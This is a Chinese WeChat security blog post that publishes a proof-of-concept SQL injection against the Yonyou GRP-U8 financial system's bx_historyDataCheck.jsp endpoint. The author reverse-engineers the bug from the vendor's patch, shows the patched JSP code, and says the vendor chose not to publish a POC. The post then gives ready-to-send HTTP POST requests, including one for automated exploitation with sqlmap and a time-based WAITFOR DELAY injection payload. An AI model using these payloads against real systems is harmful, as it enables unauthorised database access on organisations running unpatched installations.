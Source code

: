 #  【附POC】用友GRP-U8 bx_historyDataCheck.jsp SQL注入漏洞

原创 浪飒  [ 浪飒sec ](javascript:void\(0\);)

**浪飒sec** ![]()

微信号 langsasec

功能介绍 浪飒，共建网络安全

____

___发表于_

收录于合集

#漏洞复现 9 个

#用友 2 个

#漏洞通告 1 个

## 免责声明

> 本公众号所发布的文章及工具只限交流学习，本公众号不承担任何责任！如有侵权，请告知我们立即删除。

收不到推送的小伙伴，记得 **星标** 公众号哦！

![]()

## 前言

刚看到微步发的漏洞通告，所以给大家找一下POC，厂商不好意思发，我来发。

![]()

看我根据漏洞补丁复现漏洞，这漏洞很简单。

## 开始找POC

这是补丁说明，直接给了修复好的jsp让替换

![]()

朴实无华的修复方式：预编译+过滤

![]()

完整代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     <%@ page contentType="text/html; charset=UTF-8"%> <%@ page import="java.util.*,java.sql.*,com.ufgov.midas.pt.common.DAOFactory"%> <%@ page import="com.ufgov.midas.qx.model.*,com.ufgov.midas.yy.util.*,java.io.PrintWriter"%> <%     request.setCharacterEncoding("UTF-8");     String userName = request.getParameter("userName");      String historyFlag = request.getParameter("historyFlag");//历史数据标志     String ysnd = request.getParameter("ysnd");//历史数据查询年度     Connection conn = null;     PreparedStatement pstmt = null;     ResultSet rs = null;     try {               // 获取一个数据库连接                 conn = DAOFactory.getInstance().getConnection();                                  StringBuffer sb = new StringBuffer();                        sb.append("select bm.bmdm,bm.bmmc,bm.gsdm,bm.kjnd,zy.zydm,zy.password,zy.zyxm from PUBBMXX bm left join PUBZYXX zy on bm.gsdm=zy.gsdm and bm.kjnd=zy.kjnd and bm.bmdm=zy.bmdm"                          + " where bm.kjnd=? and zy.zydm = ? ");                 String sql = sb.toString();                 //System.out.println(sql);                 //Update by yangll 20230905 安全漏洞处理1.增加预编译 2.过滤特殊字符                 ysnd = ysnd.replaceAll("(?i)waitfor", "");                 ysnd = ysnd.replaceAll("(?i)delay", "");                 userName = userName.replaceAll("(?i)waitfor", "");                 userName = userName.replaceAll("(?i)delay", "");                 pstmt = conn.prepareStatement(sql);                 pstmt.setString(1, ysnd);                 pstmt.setString(2, userName);                 rs = pstmt.executeQuery();                 if (rs.next()) {                     out.println("1");                 }else {                     out.println("0");                 }             } catch (Exception e) {                 System.out.println("######获取连接错误：" + e.getMessage());                                    e.printStackTrace();             }finally {           //关闭打开的操作                              DAOFactory.closeConnection(conn, pstmt, rs);         }         %>

上述代码中有三个传参，分别是userName，ysnd，historyFlag，利用POST传参即可发包，如下图：

![]()

数据包找到了下面我们找POC

### 方式一：

  *   *   *   *   *   *   * 

    
    
     POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1 Host:  Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 59  userName=*&ysnd=*&historyFlag=*

直接将上述数据包使用sqlmap -r 1.txt即可 跑出payload

![]()

### 方式二：

jsp中对userName，ysnd两个参数过滤了WAITFOR，DELAY等关键词，因此猜测为延时注入，而一般该关键词的Payload都是联合注入形式，猜测payload为

  * 

    
    
     ';WAITFOR DELAY '0:0:5'

或者

  * 

    
    
     ";WAITFOR DELAY '0:0:5'

最终完整POC如下：

  *   *   *   *   *   *   * 

    
    
     POST /u8qx/bx_historyDataCheck.jsp HTTP/1.1 Host:  Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 57  userName=';WAITFOR DELAY '0:0:5'--&ysnd=&historyFlag=

下图为复现成功截图

![]()

## 总结

用友将代码放出来，让我们也可以体验一次当安全研究员的感觉，感谢大哥赏饭吃。

  
![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

